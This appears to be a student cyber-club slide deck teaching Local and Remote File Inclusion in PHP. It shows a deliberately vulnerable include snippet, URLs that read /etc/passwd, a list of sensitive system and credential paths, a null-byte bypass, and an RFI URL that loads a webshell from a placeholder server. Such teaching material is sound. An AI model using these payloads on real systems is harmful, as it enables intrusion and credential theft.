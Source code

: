 # Local File Inclusion

By: Nick Bulischeck

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!

<span style="padding-top: 6em; font-size: 0.4em; float: left;">Material: <a href="https://tldrlegal.com/license/creative-commons-attribution-sharealike-4.0-international-(cc-by-sa-4.0)">Creative Commons Attribution-ShareAlike 4.0</a></span><span style="padding-top: 6em; font-size: 0.4em; float: right;">Code: <a href="https://tldrlegal.com/license/bsd-2-clause-license-(freebsd)">BSD 2-Clause</a></span>



## What is Local File Inclusion?

* LFI is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application

Note:
Watch Ippsec do LFI using burp: https://youtu.be/rs4zEwONzzk?t=385


## How Does LFI Get Into Code?

* The vulnerability occurs due to the use of user-supplied input without proper validation
* More specifically, `include` statements are not properly sanitized



## Testing for LFI

* In a blackbox testing approach, we should look for scripts which take filenames as parameters


### Testing for LFI

* `http://127.0.0.1/view.php?file=index.html`

```
<?php
  include($_GET['file']);
?>
```



## Exploiting LFI

Note:
Now that you know how LFI works, how would you use it to exploit the server?


### Exploiting LFI

* `http://127.0.0.1/view.php?file=/etc/passwd`


### Interesting Linux File Paths

* /etc/issue
* /proc/version
* /etc/profile
* /etc/passwd
* /etc/shadow
* /root/.bash_history
* /var/mail/root
* /var/spool/cron/crontabs/root


### Interesting Windows File Paths

* C:\WINDOWS\System32\drivers\etc\hosts
* C:\WINDOWS\system32\eula.txt
* User Enumeration
  * C:\Users\\[USERNAME]\Desktop\desktop.ini



### Bypassing LFI File Restrictions

```
<?php
  include($_GET['file'] . ".php");
?>
```

Note:
* How are C strings represented in memory?
* What happens when strlen finds a null character?


### Bypassing LFI File Restrictions

* `http://127.0.0.1/view.php?file=/etc/passwd%00`



## Remote File Inclusion

* In RFI, the attacker is able to execute code hosted on their own machine.

Note: 
Watch Ippsec attempt RFI: https://youtu.be/rs4zEwONzzk?t=520


### RFI Example

`http://vulnerable/index.php?page=http://yourserver/webshell.txt&cmd=ifconfig`



## Lab Demo



# Questions?
